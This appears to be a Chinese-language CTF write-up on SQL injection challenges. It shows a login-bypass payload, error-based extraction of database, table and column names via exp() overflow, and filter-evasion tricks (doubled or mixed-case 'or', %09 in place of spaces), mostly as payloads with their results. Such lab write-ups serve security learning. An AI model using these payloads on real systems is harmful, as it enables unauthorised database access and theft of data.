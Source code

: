 ```
1. 得到注入点
username=1&password=2'   # 页面报错
username=1&password=2'||'1 # 提示登录成功 You are our member, welcome to enter
直接登录成功了，然后仔细看明白了为什么
因为运算优先级，select * from user where username='1' and password='2'||'1'    先执行and,在运算or
(username='1' and password='2') || '1'
false || '1'
false || true
true

2. 根据报错的特性，可以尝试报错注入了
这边把别人总结的10个报错函数都使用了，只有这个能用，其他九个应该是被过滤了
username=123&password=1'||exp(~(select * from(select database())a))||'0   #error_based_hpf
username=123&password=1'||exp(~(select * from(select group_concat(table_name) from information_schema.tables where table_schema in('error_based_hpf'))a))||'0  #ffll44jj,users
username=123&password=1'||exp(~(select * from(select group_concat(column_name) from information_schema.columns where table_name in('ffll44jj'))a))||'0   #value
```

<br>

### 认真一点！
总体参考pcat师傅的思路，自己在原有基础上边改边思考，过程学习到很多
#### 判断注入点
```sql
id=1 # You are in ................
id=0 # You are not in ...............
id=2 # You are not in ...............
显然表中只有一条数据，没有数据的情况会报出You are not in ...............

id=1aaa # You are in ................
由于ID字段为主键并且是数字类型，和字符比较时被隐式转换为 1。说明注入点是字符型
```

#### 猜解过滤字符
fuzz测试一下被过滤的字符

![fuzz-1](fuzz-1.png)


```sql
逐步构建一个的payload
id=0' or '1   # Sql injection detected!
id=0'or'1     # 返回You are not in可能是or问题，并且证明空格被过滤

尝试重写和大小写or
id=0'oorr'1   # You are in
id=0'Or'1     # You are in
说明or是被替换为空,这边是pcat师傅的思路，觉得很好
我直接使用了&&来替换，但是后期构建语句的时候因为or被替换，很难排错

绕过空格
id=0'/**/Or/**/'1  # You are not in ,如果能代替，执行肯定正常，所以失败
id=0'+Or+'1   # 同上
id=0'%09or%09'1 # 返回正常，绕过成功

在利用这个语句fuzz测试是否还存在字符是被替换成空的
id=0'Or''='    # You are in
id=0'Or'or'='  # 如果or是被替换为空，返回You are in，反之
```
